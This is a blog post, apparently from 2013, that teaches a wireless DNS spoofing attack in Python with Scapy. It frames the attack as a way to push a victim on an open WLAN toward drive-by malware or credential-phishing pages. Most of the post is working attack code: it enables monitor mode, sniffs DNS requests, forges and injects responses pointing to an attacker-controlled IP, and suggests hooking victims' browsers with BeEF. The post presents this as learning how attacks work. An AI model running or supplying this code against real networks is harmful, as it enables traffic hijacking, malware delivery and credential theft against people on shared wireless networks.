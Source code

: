 ```yaml
---
layout: post
title: "Wireless Attacks with Python: Part One - The \"Dnspwn Attack\""
date: 2013-11-15 20:45
comments: true
published: true
categories:
- wireless
- python
- security
---
```


<img src="{{root_url}}/images/headers/wireless_python.png"/>

### Introduction
A while back, I [published a post](http://raidersec.blogspot.com/2013/01/wireless-deauth-attack-using-aireplay.html) on the Raidersec blog demonstrating how to perform a deauthentication attack using Python and Scapy. I enjoyed writing the post, since I got the opportunity to learn in-depth about how different wireless attacks work, beyond just learning how to exclusively use the [aircrack suite](http://www.aircrack-ng.org/).

So, with that being said, this post will kick off a short series of posts discussing how to perform common wireless attacks using Python. I hope you enjoy the posts and, as always, never hesitate to let me know if you have any comments or questions below.
<!--more-->
### The "Dnspwn Attack"
The first attack we'll explore is what I call the "dnspwn attack" (since, from what I can tell, this attack was first created targeting HTTP with the "[airpwn](http://airpwn.sourceforge.net/Airpwn.html)" tool, and later extended to DNS) The idea behind the attack is pretty simple:

Consider two people on the same open WLAN: Bob and Eve. Eve wants to get Bob to visit a malicious webpage she created so that she can install malware onto Bob's computer via a drive-by download, or perhaps show a spoofed website to try and steal Bob's credentials.

To do this, she remembers that she can sniff all requests coming to and from Bob's computer. She also knows that she is *closer* to Bob than the web server he is sending a request to. So, she decides to wait until Bob sends a web request, and see if she can send back a spoofed response pretending to come from the web server *before* the actual web server can respond. Turns out, she can. In fact, once the spoofed response is received, Bob's computer will likely ignore any further traffic received, including the real response!

Let's see what this would look like:

<a href="{{root_url}}/images/blog/wireless-attacks/dnspwn/diagram.png" target="_blank"><img src="{{root_url}}/images/blog/wireless-attacks/dnspwn/diagram_small.png"/></a>


So, now that we know how the attack works, let's automate it!

### Setting up the Alfa AWUS06H

As was the case in my Raidersec post, we will be using the handy [Alfa AWUS036H](http://www.amazon.com/Alfa-AWUS036H-802-11b-Wireless-network/dp/B002WCEWU8) for this attack. The first thing we want to do is to put our wireless card in monitor mode so that we can capture all traffic coming from the ```demo_insecure``` network.

```
root@bt:~# airmon-ng start wlan0
```

Now that we have monitor mode up and running on ```mon0```, let's start coding!

### Coding the Attack

We will utilize the ```scapy``` module to perform the attack. Let's start by sniffing any UDP packet with a destination of port 53, and send the packet to a function called ```send_response``` that we will make later:

```
from scapy.all import *

sniff(prn=lambda x: send_response(x),
	lfilter=lambda x:x.haslayer(UDP) and x.dport == 53)
```

Now let's create a function which can parse the request for relevant information, and inject the response. We can parse the packet and create our response simply by working our way up the layers as follows:

* 802.11 Frame - Change the "to-ds" flag to "from-ds" (our request will now be coming *from* the access point)
* 802.11 Frame - Switch the source and destination MAC addresses
* IP Layer - Switch the source and destination IP addresses
* UDP layer - Switch the source and destination ports
* DNS layer - Set the "answer" flag(s), and append our spoofed answer

Fortunately, ```scapy``` makes this very simple for us by abstracting away a lot of minor details (e.g. in fact, there are *4* MAC address fields in an 802.11 frame, each in a different order depending on the direction of the packet). With that being said, here's the code:

```
def send_response(x):
	# Get the requested domain
	req_domain = x[DNS].qd.qname
	spoofed_ip = '192.168.2.1'
	# Let's build our response from a copy of the original packet
	response = x.copy()
	# We need to start by changing our response to be "from-ds", or from the access point.
	response.FCfield = 2L
	# Switch the MAC addresses
	response.addr1, response.addr2 = x.addr2, x.addr1
	# Switch the IP addresses
	response.src, response.dst = x.dst, x.src
	# Switch the ports
	response.sport, response.dport = x.dport, x.sport
	# Set the DNS flags
	response[DNS].qr = 1L
	response[DNS].ra = 1L
	response[DNS].ancount = 1
```

Now that we've set all the flags, let's create and append the DNS answer:

```
response[DNS].an = DNSRR(
	rrname = req_domain,
	type = 'A',
	rclass = 'IN',
	ttl = 900,
	rdata = spoofed_ip
	)
```

And, finally, we inject the spoofed response:

```
sendp(response)
```

That's all there is to it! You can find the full source on [Github](https://github.com/jordan-wright/python-wireless-attacks/blob/master/dnspwn.py).

### Demo
For the demo, I have the following HTML response available on the host 192.168.2.138:

```
<html>
<head></head>
<body>
	Owned.
</body>
</html>
```

It's worth noticing that we can have *any* HTML, Javascript, etc. we want. It would be trivial to hook the browser using the [BeEF framework](http://beefproject.com/), for example.

Here's a screenshot of it in action (I am using my iPhone as the victim):

<a href="{{root_url}}/images/blog/wireless-attacks/dnspwn/screen_shot_pc.png" target="_blank"><img src="{{root_url}}/images/blog/wireless-attacks/dnspwn/screen_shot_pc.png"/></a>
<a href="{{root_url}}/images/blog/wireless-attacks/dnspwn/iphone.png" target="_blank"><img src="{{root_url}}/images/blog/wireless-attacks/dnspwn/iphone_small.png"/></a>

### Conclusion & Future Improvements
It's important to note that this attack will work just as well on other simple request/response protocols. For example, the original "airpwn" attack spoofed HTTP responses. There are also quite a few improvements we can make to this script. Here are a few:

* Match requests against regular expressions (for example, only replacing Javascript content)
* Set options from arguments / Read configuration information from a file
* Implement the attack for other protocols (ie HTTP).

Enjoy!

Jordan ([@jw_sec](http://twitter.com/jw_sec))

